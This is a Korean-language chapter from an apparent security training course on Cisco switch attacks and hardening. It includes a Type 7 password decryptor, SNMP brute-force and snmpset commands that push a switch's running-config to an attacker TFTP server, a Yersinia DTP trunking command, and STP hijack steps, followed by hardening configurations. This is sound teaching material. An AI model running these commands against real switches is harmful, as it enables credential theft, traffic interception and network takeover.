


# 07. 심층 분석: Cisco IOS 아키텍처, L2 VLAN Hopping·STP 탈취 및 엔터프라이즈 스위치 하드닝 딥다이브

> **핵심 요약**: 본 문서는 엔터프라이즈 네트워크 인프라의 핵심인 Cisco Catalyst 스위치 및 IOS 운영체제를 대상으로 한 첨단 침투 기법과 다층 방어 체계를 심층 분석합니다. 관리 플레인(Management Plane)의 취약한 SNMPv2c 커뮤니티 스트링을 악용한 **ciscoConfigCopyMIB Running-Config 덤프 및 Type 7 암호 역산**, 데이터 플레인(Data Plane)의 DTP(Dynamic Trunking Protocol) 자동 협상 취약점을 노린 **802.1Q VLAN Hopping**, 제어 플레인(Control Plane)의 **802.1D STP BPDU 조작 및 Root Bridge 하이재킹**, 그리고 이에 대응하는 **Port Security, DHCP Snooping, Dynamic ARP Inspection (DAI), BPDU Guard, SNMPv3 AuthPriv, CoPP** 완화 체계를 다룹니다.

---

## 1. 엔터프라이즈 네트워크 인프라 공격 및 방어 라이프사이클

전통적인 네트워크 보안은 L3/L4 방화벽에 집중되어 있었으나, 실제 침투 테스트 및 APT 공격 시나리오에서는 물리적 포트 접속 또는 악성코드 감염 호스트를 기점으로 한 **Layer 2 로컬 인프라 장악**이 가장 빠르고 강력한 내부망 확장 경로로 활용됩니다.



---

## 2. Cisco IOS 아키텍처 및 패스워드 암호화 원리

Cisco IOS는 네트워크 운영체제로서 시스템 보호를 위해 다양한 레벨의 계정 권한과 패스워드 해싱/암호화 방식을 지원합니다.

### 2.1 IOS 권한 레벨 (Privilege Levels)
- **User EXEC (Level 1)**: 기본 읽기 전용 진단 모드 (`Router>`)
- **Privileged EXEC (Level 15)**: 시스템 전체 설정 및 진단이 가능한 최고 관리자 권한 (`Router#`)
- **Custom Privilege (Level 2~14)**: 역할 기반 접근 제어(RBAC)용 부분 권한

### 2.2 Cisco 패스워드 암호화 알고리즘 비교

| Type | 알고리즘 | 보안 수준 | 취약점 및 공격 벡터 |
| :---: | :--- | :---: | :--- |
| **Type 0** | 평문 (Plaintext) | ❌ 최악 | 설정 파일 노출 시 즉각 탈취 |
| **Type 7** | 독자 Vigenère 변형 XOR 치환 암호 | ❌ 매우 취약 | 26바이트 고정 키 테이블을 사용하므로 **순수 역산으로 즉시 복호화 가능** |
| **Type 5** | MD5 솔트 해시 (`$1$`) | ⚠️ 취약 | 현대 GPU 사전 공격(Hashcat Mode 500)으로 고속 크래킹 |
| **Type 8** | PBKDF2-HMAC-SHA256 (`$8$`) | ✅ 안전 | 연산 비용 20,000회 이상으로 무차별 대입 방어 |
| **Type 9** | Scrypt (`$9$`) | 🛡️ 최고 | 메모리 하드니스 기반 최신 암호 표준 |

### 2.3 Cisco Type 7 암호화 역산 알고리즘

Cisco Type 7은 `service password-encryption` 활성화 시 적용되며, 다음 26바이트의 불변 키 배열을 기반으로 단순 XOR 연산을 수행합니다:

```python
CISCO_KEY = [
    0x64, 0x73, 0x66, 0x64, 0x3B, 0x6B, 0x66, 0x6F,
    0x41, 0x2C, 0x2E, 0x69, 0x79, 0x65, 0x77, 0x72,
    0x6B, 0x6C, 0x64, 0x4A, 0x4B, 0x44, 0x48, 0x53,
    0x55, 0x42
]

def decrypt_cisco_type7(ciphertext: str) -> str:
    """Type 7 암호문의 앞 2자리는 시작 인덱스, 이후 2자리씩 1바이트 16진수 XOR"""
    start_idx = int(ciphertext[:2])
    plaintext = []
    for i in range(2, len(ciphertext), 2):
        val = int(ciphertext[i:i+2], 16)
        key_byte = CISCO_KEY[(start_idx + (i - 2) // 2) % len(CISCO_KEY)]
        plaintext.append(chr(val ^ key_byte))
    return "".join(plaintext)
```

따라서 설정 파일에 `enable secret 7 0822455B0A10`과 같이 저장되어 있다면, 공격자는 1ms 이내에 평문 비밀번호를 복원할 수 있습니다.

---

## 3. 관리 플레인 공격: SNMPv2c 침투 및 Config 파일 덤프

SNMP(Simple Network Management Protocol)는 네트워크 모니터링에 널리 사용되지만, SNMPv1 및 SNMPv2c는 인증을 **평문 커뮤니티 스트링(Community String)**에 전적으로 의존합니다.

### 3.1 SNMPv2c MIB 구조 및 취약점
- 기본값으로 `public`(Read-Only)과 `private`(Read-Write)이 방치된 경우가 빈번합니다.
- R/W 권한을 획득하면 단순 모니터링을 넘어 **장비의 환경설정 파일을 외부 서버로 전송하도록 강제**할 수 있습니다.

### 3.2 ciscoConfigCopyMIB (OID: 1.3.6.1.4.1.9.9.96) 공격 체인
공격자는 SNMP SET 요청을 전송하여 Cisco 스위치가 자신의 Running-Config를 공격자의 TFTP 서버로 업로드하도록 명령합니다:

```bash
# 1. SNMP 무차별 대입 (onesixtyone / snmpwalk)
onesixtyone -c /usr/share/wordlists/snmp.txt 192.168.100.1

# 2. ciscoConfigCopyMIB 조작 (SNMP SET)
# ccCopyProtocol = tftp(1)
snmpset -v2c -c private 192.168.100.1 1.3.6.1.4.1.9.9.96.1.1.1.1.2.999 i 1
# ccCopySourceFileType = runningConfig(4)
snmpset -v2c -c private 192.168.100.1 1.3.6.1.4.1.9.9.96.1.1.1.1.3.999 i 4
# ccCopyDestFileType = networkFile(1)
snmpset -v2c -c private 192.168.100.1 1.3.6.1.4.1.9.9.96.1.1.1.1.4.999 i 1
# ccCopyServerAddress = 공격자 IP
snmpset -v2c -c private 192.168.100.1 1.3.6.1.4.1.9.9.96.1.1.1.1.5.999 a 192.168.100.50
# ccCopyFileName = 저장할 파일명
snmpset -v2c -c private 192.168.100.1 1.3.6.1.4.1.9.9.96.1.1.1.1.6.999 s "cisco_dump.cfg"
# ccCopyEntryRowStatus = active(1) -> 복사 실행!
snmpset -v2c -c private 192.168.100.1 1.3.6.1.4.1.9.9.96.1.1.1.1.14.999 i 1
```

---

## 4. 데이터 플레인 공격: DTP 스푸핑 & 802.1Q VLAN Hopping

스위치의 기본 포트 설정이 올바르게 고정되지 않은 경우, L2 프레임 조작을 통해 네트워크 격리를 무력화할 수 있습니다.

### 4.1 DTP (Dynamic Trunking Protocol) 스푸핑
Cisco 스위치의 포트는 기본적으로 `dynamic desirable` 또는 `dynamic auto` 모드로 동작합니다. 이는 상대방 포트가 트렁크를 요청하면 자동으로 트렁크 포트로 전환됨을 의미합니다.

- **공격 기법**: 공격자가 Linux 머신에서 DTP 트렁크 요청 프레임(Yersinia 도구 활용)을 전송합니다.
- **결과**: 일반 사용자 단말 포트가 802.1Q 트렁크 포트로 협상되어, 공격자는 임의의 VLAN 태그를 붙여 다른 VLAN(예: 관리 VLAN 100, 금융 VLAN 20)으로 직접 프레임을 전송할 수 있게 됩니다.

```bash
# Yersinia를 이용한 DTP 트렁크 협상 공격
yersinia dtp -interface eth0 -attack 1
```

### 4.2 802.1Q Double Tagging (이중 태깅 우회)
공격자가 이미 Native VLAN과 동일한 VLAN에 속해 있는 경우:
- 프레임 헤더에 외부 태그(Outer Tag: Native VLAN ID)와 내부 태그(Inner Tag: 타깃 격리 VLAN ID)를 이중으로 부착합니다.
- 첫 번째 스위치는 Native VLAN 태그를 벗겨내고(Untagged) 트렁크를 통해 다음 스위치로 전달합니다.
- 두 번째 스위치는 남아있는 내부 태그를 확인하고 해당 타깃 VLAN으로 프레임을 포워딩하여 단방향 VLAN Hopping이 완성됩니다.

---

## 5. 제어 플레인 공격: 802.1D STP Root Bridge 탈취

L2 스위치 루프를 방지하는 Spanning Tree Protocol (STP)은 **Priority 값이 가장 낮은 브리지를 전체 트리의 Root Bridge로 선정**합니다.

```
Bridge ID (8 Bytes) = Bridge Priority (2 Bytes) + MAC Address (6 Bytes)
```

- Cisco 스위치의 기본 Bridge Priority는 `32768`입니다.
- 공격자가 자신의 MAC 주소와 함께 **Bridge Priority `0`**을 담은 위조 BPDU(Bridge Protocol Data Unit)를 주기적으로 주입(BPDU Injection)합니다.
- 모든 스위치는 공격자 머신을 최우선 Root Bridge로 인식하고, 전체 스위칭 트리의 포워딩 경로를 공격자 쪽으로 재구성합니다.
- **결과**: 네트워크 전역의 L2 유니캐스트/멀티캐스트 프레임이 공격자를 경유하게 되어 완벽한 중간자 공격(MITM) 및 도청이 가능해집니다.

---

## 6. 엔터프라이즈 L2 스위치 하드닝 가이드라인

위의 공격들을 원천 차단하기 위해 Cisco Catalyst 스위치에 반드시 적용해야 하는 필수 6대 하드닝 정책입니다.



### 6.1 포트 고정 및 DTP 비활성화
모든 사용자 접근 포트는 명시적 Access 모드로 고정하고 DTP 협상을 원천 차단해야 합니다:
```cisco
interface range GigabitEthernet 1/0/1 - 24
 switchport mode access
 switchport access vlan 10
 switchport nonegotiate
```

### 6.2 Port Security (포트 보안)
비인가 장비 연결 및 MAC Flooding 공격 방지:
```cisco
interface range GigabitEthernet 1/0/1 - 24
 switchport port-security
 switchport port-security maximum 1
 switchport port-security mac-address sticky
 switchport port-security violation shutdown
```

### 6.3 DHCP Snooping & Dynamic ARP Inspection (DAI)
위조 DHCP 서버(Rogue DHCP) 및 ARP 스푸핑을 완벽 차단:
```cisco
! DHCP Snooping 활성화
ip dhcp snooping
ip dhcp snooping vlan 1-100
interface TenGigabitEthernet 1/1/1
 ip dhcp snooping trust

! DAI 활성화 (DHCP Snooping 바인딩 데이터베이스 참조)
ip arp inspection vlan 1-100
interface TenGigabitEthernet 1/1/1
 ip arp inspection trust
```

### 6.4 Spanning Tree BPDU Guard & Root Guard
사용자 접근 포트에서 악성 BPDU 수신 시 포트를 즉각 `err-disabled` 상태로 격리:
```cisco
spanning-tree portfast default
spanning-tree portfast bpduguard default
```

### 6.5 SNMPv3 AuthPriv 암호화 마이그레이션
평문 v1/v2c 커뮤니티를 전면 폐기하고 안전한 인증/암호화 적용:
```cisco
no snmp-server community public
no snmp-server community private
snmp-server group SECURE_GROUP v3 priv
snmp-server user netadmin SECURE_GROUP v3 auth sha256 StrongAuthPass! priv aes 256 StrongPrivPass!
```

### 6.6 Control Plane Policing (CoPP)
스위치/라우터 CPU로 유입되는 제어 트래픽을 Rate-limit하여 DoS 방지:
```cisco
class-map match-all ICMP_TRAFFIC
 match access-group name ACL_ICMP
policy-map COPP_POLICY
 class ICMP_TRAFFIC
  police 8000 conform-action transmit exceed-action drop
control-plane
 service-policy input COPP_POLICY
```

---

## 7. 실습 랩 연동 안내

본 챕터의 이론 및 실전 공격/방어 시나리오는 **[Lab 28: NetShield (네트워크 장비 & Cisco 인프라 보안 랩)](../labs/28_cisco_network_device_lab/README.md)**에서 직접 시뮬레이션할 수 있습니다.

- **실행 명령**: `vhack lab start 28`
- **웹 콘솔**: `http://localhost:8028`
- **검증 스위트**: `vhack lab test 28` 및 `vhack solve 28`
